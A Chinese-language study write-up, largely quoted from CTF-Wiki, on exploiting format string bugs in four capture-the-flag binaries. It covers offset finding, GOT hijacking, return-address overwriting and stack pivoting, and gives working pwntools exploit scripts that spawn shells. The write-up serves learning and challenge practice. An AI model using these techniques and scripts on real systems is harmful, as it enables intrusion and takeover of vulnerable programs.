

# 格式化字符串漏洞例子

> 绝大部分内容来自 CTF-WIKI ，内容引用用于学习记录

## 64 位程序格式化字符串漏洞 

### 原理 

其实 64 位的偏移计算和 32 位类似，都是算对应的参数。只不过 64 位函数的前 6 个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？**虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。**

### 例子

#### 确定保护 

这里，我们以 2017 年的 UIUCTF 中 [pwn200 GoodLuck](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck) 为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个 flag.txt 文件。

```shell
➜  2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出程序开启了 Canary、NX 保护以及部分 RELRO 保护。

#### 分析程序 

可以发现，程序的漏洞很明显

```c
for ( j = 0; j <= 21; ++j )
{
    v5 = format[j];
    if ( !v5 || v11[j] != v5 )
    {
        puts("You answered:");
        printf(format);
        puts("\nBut that was totally wrong lol get rekt");
        fflush(_bss_start);
        result = 0;
        goto LABEL_11;
    }
}
```

可以看到 flag 对应的栈上的偏移为 5，除去对应的第一行为返回地址外，其偏移为 4。此外，由于这是一个 64 位程序，所以前 6 个参数存在在对应的寄存器中，fmt 字符串存储在 RDI 寄存器中，所以 fmt 字符串对应的地址的偏移为 10。而 fmt 字符串中 `%order$s` 对应的 order 为 fmt 字符串后面的参数的顺序，所以我们只需要输入 `%9$s` 即可得到 flag 的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 来判断某个参数的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

> 来自 resery 师傅注解：
>
> 这里的 10 是由 5+5 得到的，至于为什么是这两个 5 是从哪里的得到的，我来解释一下，前面的 5：由于 64 为程序，前 64 个参数是存在寄存器中的，分别是 rdi，rsi，rcx，rdx，r8，r9，所以第一个格式化字符串是存储在 rdi 中的，所以 flag 对应的偏移就应该是 5+flag 在栈中的偏移，在栈中的偏移就很好理解了就是 5，所以 flag 对应的格式化字符串偏移为 10

**注解**

1. 我安装的 Pwndbg 并没有 fmtarg  ，可能是版本不对，如果需要安装一下 gef 插件。

2. 两个作者都解释了偏移 10 是怎么计算来，但我更喜欢的方法是**输入一长串 %p 得出输入字符串的偏移是多少，然后再计算目标偏移或地址**。

   ```shell
   $ ./goodluck 
   what's the flag
   bbbbbbbb%p%p%p%p%p%p%p%p%p%p%p
   You answered:
   bbbbbbbb0x6020100x7ffff7dd37800x7ffff7b042c00x7ffff7fdc7000x7ffff7fdc7010x620000010x6028300x6020100x7fffffffdd300x6161617b67616c660x6161616161616161
   But that was totally wrong lol get rekt
   ```

   0x602830 是第 7 位。为什么泄露的不是 0x6262626262626262 ？前面提到了，64 位系统的前六个参数是寄存器传参的，而 bbbbbbbb 是第一个参数自然在寄存器中存放，0x602830 就是存储的寄存器地址。怎么获得这个地址？gdb 调试断点打在 printf 函数：

   

   这样得出最后的 flag 偏移为 10 。

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# 这个库没有用到可以注释掉
# from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

## hijack GOT

### 原理 

在目前的 C 程序中，libc 中的函数都是通过 GOT 表来跳转的（延迟绑定技术）。此外，在没有开启 RELRO 保护的前提下，每个 libc 的函数对应的 GOT 表项是可以被修改的。因此，我们可以修改某个 libc 函数的 GOT 表内容为另一个 libc 函数的地址来实现对程序的控制。比如说我们可以修改 printf 的 got 表项内容为 system 函数的地址。从而，程序在执行 printf 的时候实际执行的是 system 函数。

假设我们将函数 A 的地址覆盖为函数 B 的地址，那么这一攻击技巧可以分为以下步骤

- 确定函数 A 的 GOT 表地址。

  - 这一步我们利用的函数 A 一般在程序中已有，所以可以采用简单的寻找地址的方法来找。（因为这类函数会在程序源码中使用到，所以能直接或间接从 elf 文件中读取）

- 确定函数 B 的内存地址

  - 这一步通常来说，需要我们自己想办法来泄露对应函数 B 的地址。

- 将函数 B 的内存地址写入到函数 A 的 GOT 表地址处。

  - 这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

    - 写入函数：write 函数（常见）
    - 格式化字符串任意地址写（常见）
    - ROP

    ```
    pop eax; ret;           # printf@got -> eax
    pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
    add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset
    ```

### 例子 

这里我们以 2016 CCTF 中的 [pwn3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2016-CCTF-pwn3) 为例进行介绍。

#### 确定保护 

如下

```shell
➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序主要开启了 NX 保护。RELRO 是部分保护，这种状态下可以修改 GOT 表，如果是 FULL 则不行。另外我们一般默认远程都是开启 ASLR 保护的。

#### 分析程序 

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的 ftp，具有 get，put，dir 三个基本功能。大概浏览一下每个功能的代码，发现在 get 功能中存在格式化字符串漏洞

```c
int get_file()
{
  char dest; // [sp+1Ch] [bp-FCh]@5
  char s1; // [sp+E4h] [bp-34h]@1
  char *i; // [sp+10Ch] [bp-Ch]@3

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 0x28);//将内容复制到dest
      return printf(&dest);//输出dest内容
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路 

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 漏洞利用程序 

如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : filename.py
from pwn import *
context.log_level = 'debug'

p = process("./pwn3")
elf = ELF("./pwn3")
libc = ELF("./libc.so")

def creat(name,content):
    p.recvuntil("ftp>")
    p.sendline("put")
    p.recvuntil("upload:")
    p.sendline(name)
    p.recvuntil("content:")
    p.sendline(content)
def show(name):
    p.recvuntil("ftp>")
    p.sendline("get")
    p.recvuntil("get:")
    p.sendline(name)
def showlist():
    p.recvuntil("ftp>")
    p.sendline("dir")

name = "rxraclhm"
puts_got = elf.got['puts']
log.info("puts_got:"+hex(puts_got))

p.recvuntil("Rainism):")
p.sendline(name)

# leak libc
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')

puts_leak = u32(p.recv(4))
log.info("puts_leak:"+hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
binsh = libc_base + libc.search('/bin/sh').next()
log.info("binsh:"+hex(binsh))
onegadget = libc_base + 0x3ac62
log.info("onegadget:"+hex(onegadget))

# 1:overcover puts@got 2 system@got

#payload = fmtstr_payload(7, {puts_got: system})
#creat('/bin/sh;', payload)
#show('/bin/sh;')
#showlist()

# 2:overcover puts@got 2 onegadget
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')

p.interactive()
```

> exp 替换我写得版本，这条题目的完整 WP ：[2016_CCTF_pwn3_writeup](example\fmtstr_example\hijack_GOT\2016_CCTF_pwn3_writeup.md)

注意

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。

  **注解**：结合 payload 来看：``payload = "%8$s" + p32(puts_got)`` ，``%8$S``长度为 0x4 ，偏移为 7；``p32(puts_got)`` 长度为 0x4 ，偏移为 8 ;

- 这里我利用了 pwntools 中的 fmtstr_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr_payload(7, {puts_got: system_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。

## hijack retaddr

### 原理 

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

### 例子 

这里我们以 [三个白帽 - pwnme_k0](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/三个白帽-pwnme_k0) 为例进行分析。

#### 确定保护 

```
➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出程序主要开启了 NX 保护以及 Full RELRO 保护。这我们就没有办法修改程序的 got 表了。

#### 分析程序 

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

```c
int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf(&formata, "Welc0me to sangebaimao!\n");
  return printf(&a4 + 4);
}
```

其输出的内容为 &a4 + 4。我们回溯一下，发现我们读入的 password 内容也是

```c
v6 = read(0, (char *)&a4 + 4, 0x14uLL);
```

当然我们还可以发现我们读入的 username 在距离的 password 20 个字节。

```c
puts("Input your username(max lenth:20): ");
fflush(stdout);
v8 = read(0, &bufa, 0x14uLL);
if ( v8 && v8 <= 0x14u )
{
    puts("Input your password(max lenth:20): ");
    fflush(stdout);
    v6 = read(0, (char *)&a4 + 4, 0x14uLL);
    fflush(stdout);
    *(_QWORD *)buf = bufa;
    *(_QWORD *)(buf + 8) = a3;
    *(_QWORD *)(buf + 16) = a4;
```

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

#### 利用思路 

我们最终的目的是希望可以获得系统的 shell，可以发现在给定的文件中，在 0x00000000004008A6 地址处有一个直接调用 system('bin/sh') 的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了 shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于 rbp 的地址并不会改变，所以我们可以使用相对地址来计算。

**注解**：

上面这句话可以这样理解：有一个独立函数 A 的栈帧，这个 A 栈帧整体存放地址是动态变化的。但是 A 栈帧内部的结构是固定的，举个例子：rbp 一定在 rip 前面（低地址）。还有我们知道的是 rbp 存储的是上一个栈帧的 rbp 地址，如果说每次都是通过函数 B 调用函数 A ，因为AB 栈帧长度&结构固定，我们就可以通过泄露函数 A rbp 的值减去偏移得到函数 A rip 地址。


利用思路如下

- 确定偏移
- 获取函数的 rbp 与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行 system 函数调用的地址写入到存储返回地址的地址。

#### 确定偏移 

首先，我们先来确定一下偏移。输入用户名 aaaaaaaa，密码随便输入，断点下在输出密码的那个 printf(&a4 + 4) 函数处

```shell
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
...
```

此时栈的情况为

```shell
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

**注解**：

这里我还是用我习惯的方法，输出几个 %p 直接数出来偏移。

#### 修改地址 

我们再仔细观察下断点（b printf）处栈的信息

```sehll
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址 (其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址。


0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是**在某些较新的系统 (如 ubuntu 18.04) 上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash**, 这时可以考虑修改返回地址为 0x00000000004008AA, 即直接调用 system("/bin/sh") 处

```shell
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwnme_k0.py
from pwn import *
context.log_level = 'debug'

p = process("./pwnme_k0")
elf = ELF("./pwnme_k0")

# leak stack addr
payload = 'a'*0x8 + "%6$p"

p.recvuntil("20): \n")
p.send(payload)
p.recvuntil("20): \n")
p.send(payload)

p.recvuntil('>')
#gdb.attach(p,'b printf')
p.sendline('1')
p.recvuntil('a'*0x8)
stack_leak = int(p.recv(14),16) - 0x38
log.info("stack_leak:"+hex(stack_leak))

# hijack retaddr
payload1 = p64(stack_leak)
payload2 = "%2218d%8$hn"

p.recvuntil('>')
p.sendline('2')
p.recvuntil("20): \n")
p.sendline(payload1)
p.recvuntil("20): \n")
p.sendline(payload2)

p.recvuntil('>')
p.sendline('1')

p.interactive()
```

**注解**：

1. 泄露地址的时候使用格式化字符串用的是 %p ，如果用 %s 再 u64 泄露出来的是函数 B 的 rbp 的值。原因也很简单，要求输出的是字符，系统到函数 A rbp 的值指向的地址取值，也就是函数 B 的值。如果是 %p 就将函数 A rbp 的值输出。
2. hijack 部分的 payload ，格式化字符串可以放到 name 输入，也就是和 stack_leak 一起输入，password 就随便输入点东西行了。这里因为输入长度现在，所以没有使用最稳妥的 单字节 输入，而是双字节。

## 堆上的格式化字符串漏洞

### 原理 

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。（出现情况就像下面例子，格式化字符串本身存储在堆上，字符指针指向栈上，出现的情况是我们不能容易控制写入的地址）

### 例子 

这里我们以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts) 为例进行介绍。

#### 确定保护 

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序不仅开启了 NX 保护还开启了 Canary。（RELRO 半保护，我们是不是能 hijack got 表呢？hijack retaddr 呢？）

#### 分析程序 

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在打印联系人信息的时候存在格式化字符串漏洞。

```c
int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
{
  printf("\tName: %s\n", a1);
  printf("\tLength %u\n", a2);
  printf("\tPhone #: %s\n", a3);
  printf("\tDescription: ");
  return printf(format);	//格式化字符串漏洞
}
```

仔细看看，可以发现这个 format 其实是指向堆中的。

**注解**：可以从调用 PrintInfo 的上层函数查看最后一个参数：（v2 是结构体链表）

```c
sub_8048BD1(v2 + 8, *(_DWORD *)(v2 + 72), *(_DWORD *)(v2 + 4), *(char **)v2);
```

#### 利用思路 

我们的基本目的是获取系统的 shell，从而拿到 flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持 got 表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下

- 之所以不能够劫持 got 来控制程序流程，是因为我们发现对于程序中常见的可以对于我们给定的字符串输出的只有 printf 函数，我们只有选择它才可以构造 /bin/sh 让它执行 system('/bin/sh')，但是 printf 函数在其他地方也均有用到，这样做会使得程序直接崩溃。

  **注解**

  换句人话就是：在这个程序中，我们能控制输入参数的函数就只有 printf ，诸如 puts 等的参数都是我们不可控的。因为修改 got 表之后我们需要传入 binsh 的地址，所以只能选择 printf 。但是选择 printf 又有一个问题，我们修改完后，printf 各个地方都会用到，还没运行到我们能输入参数的地方，程序就已经挂逼了。

  这里还有一个原因 wiki 中没有提及，那就是我们不能直接控制写入地址。原因很简单：通过分析程序知道，格式化字符串是存放在堆上，而字符串指针是在栈上，很明显的现象就是栈上不是字符串的明文，而是字符串的堆地址，就算我们在格式化字符串中输入目标地址，也不能通过偏移获取。（这个程序全部可控输入都放在堆上）我们不能直接控制输入目标地址，找栈上现有的地址。

  超长偏移能取到值？我们当它是可行的试一试，格式化字符串到描述堆块相差 ``-0xf7fafed0`` ，偏移为 ``-1040105396`` ，构造尝试一下：

  

  

- 其次，不能够直接控制程序返回地址来控制程序流程的是因为我们并没有一块可以直接执行的地址来存储我们的内容，同时利用格式化字符串来往栈上直接写入 system_addr + 'bbbb' + addr of '/bin/sh‘ 似乎并不现实。

  **注解**：

  换句人话就是：我们不能直接控制目标地址，只能在栈上通过偏移找地址，而栈上没有指向 eip 的地方，也就找不到 eip 地址，就不能修改 eip 的值。

**注解**：

就因为我们不能直接控制目标地址，所以不能用 hijack GOT 、hijack retaddr 。

那么我们可以怎么做呢？我们还有之前在栈溢出讲的技巧，stack pivoting。而这里，我们可以控制的恰好是堆内存，所以我们可以把栈迁移到堆上去。这里我们通过 leave 指令来进行栈迁移，所以在迁移之前我们需要修改程序保存 ebp 的值为我们想要的值。 只有这样在执行 leave 指令的时候， esp 才会成为我们想要的值。（leave 指令等于：``mov esp,ebp;pop ebp;``）

同时，因为我们是使用格式化字符串来进行修改，所以我们得知道保存 ebp 的地址为多少，而这时 PrintInfo 函数中存储 ebp 的地址每次都在变化，而我们也无法通过其他方法得知。但是，**程序中压入栈中的 ebp 值其实保存的是上一个函数的保存 ebp 值的地址**，所以我们可以修改其**上层函数的保存的 ebp 的值，即上上层函数（即 main 函数）的 ebp 数值**。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

- 首先获取 system 函数的地址

  - 通过泄露某个 libc 函数的地址根据 libc database 确定。

- 构造基本联系人描述为 system_addr + 'bbbb' + binsh_addr

- 修改上层函数保存的 ebp(即上上层函数的 ebp) 为**存储 system_addr 的地址 -4**。

  **注解**：

  为什是**system_addr 的地址 -4** ？是因为程序末尾的 ``leave;ret`` 执行完 ``leave`` 后，esp 是指向 ebp 的，然后 esp 的值会增加一个机器长度（这时 esp 刚好是指向 eip ），再执行 ret 将 esp 指向的值压入 eip 中。

- 当主程序返回时，会有如下操作（第一第二合并等于 ``leave`` ）

  - move esp,ebp，将 esp 指向 system_addr 的地址 - 4
  - pop ebp， 将 esp 指向 system_addr
  - ret，将 eip 指向 system_addr，从而获取 shell。

#### 获取相关地址与偏移 

这里我们主要是获取 system 函数地址、/bin/sh 地址，栈上存储联系人描述的地址，以及 PrintInfo 函数的地址。

首先，我们根据栈上存储的 libc_start_main_ret 地址 (该地址是当 main 函数执行返回时会运行的函数) 来获取 system 函数地址、/bin/sh 地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在 printf 处，并且一直运行到格式化字符串漏洞的 printf 函数处，如下

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
0xffffcd00│+0x04: 0x0804c420  →  "1234567"
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
[#1] 0x8048c27 → leave 
[#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
[#3] 0x80487a2 → jmp 0x80487b3
[#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
[#5] 0x80485e1 → hlt 
────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  dereference $esp 140
['$esp', '140']
1
0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
gef➤  dereference $esp l140
['$esp', 'l140']
140
0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
0xffffcd00│+0x04: 0x0804c420  →  "1234567"
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
0xffffcd24│+0x28: 0x00002b67 ("g+"?)
0xffffcd28│+0x2c: 0x0804c410  →  "11111"
0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd3c│+0x40: 0x00000000
0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
0xffffcd44│+0x48: 0x00000000
0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
0xffffcd58│+0x5c: 0x00000050 ("P"?)
0xffffcd5c│+0x60: 0x00000000
0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
0xffffcd64│+0x68: 0x08048288  →  0x00000082
0xffffcd68│+0x6c: 0x00000004
0xffffcd6c│+0x70: 0x0000000a
0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
0xffffcd78│+0x7c: 0x00000000
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
0xffffcd80│+0x84: 0x00000001
0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
```

我们可以通过简单的判断可以得到

```shell
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的是 __libc_start_main 的返回地址，同时利用 fmtarg 来获取对应的偏移，可以看出其偏移为 32，那么相对于格式化字符串的偏移为 31（格式化字符串在 0xffffcd00 ）。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据 libc-database 来获取对应的 libc，继而获取 system 函数地址与 /bin/sh 函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址 0xffffcd2c 相对于格式化字符串的偏移为 11，得到这个是为了寻址堆中指定联系人的 Description 的内存首地址，我们将格式化字符串 [system_addr\]\[bbbb]\[binsh_addr]\[%6p][p]\[p][bbbb] 保存在指定联系人的 Description 中。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
```

#### 构造联系人获取堆地址 

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

```shell
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的 ebp 地址并不会因为我们再次调用而改变。

**注解**：

因为 PrintInfo 肯定是通过 main 函数调用的，而 main 函数一直没有结束，也就是一直在内存的某一固定位置。PrintInfo 是在 main 栈基础上往低地址生长的，所以只有 PrintInfo 结构固定 ebp 地址也不会因为我们再次调用而改变。PrintInfo 结构固定是因为所有输出内容（号码、描述等）都是以堆堆指针形式存储的，也就是无论长度如何变化在栈上所在空间都是不变的，ebp 的偏移也就是固定了。

在部分环境下，system 地址会出现 \ x00，导致 printf 的时候出现 0 截断导致无法泄露两个地址，因此可以将 payload 的修改如下：

```shell
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload 修改为这样的话，还需要在 heap 上加入 12 的偏移。这样保证了 0 截断出现在泄露之后。``[%6$p]``：上层函数 ebp 地址；``[%11$p]``：堆块 fd 指针地址；

#### 修改 ebp

由于我们需要执行 leave（ ~~move 指令将 ebp 赋给 esp，并还需要执行 pop ebp~~ ）才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 ``move esp,ebp`` 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 6，所以我们可以构造如下的 payload 来进行修改相应的值。(这里是 wiki 的修改方法，因为wiki exp 我本地打不通，换成自己的，所以修改方法也不一样)

```python
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取 shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5 ，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序 

```python
#!/usr/bin/env python
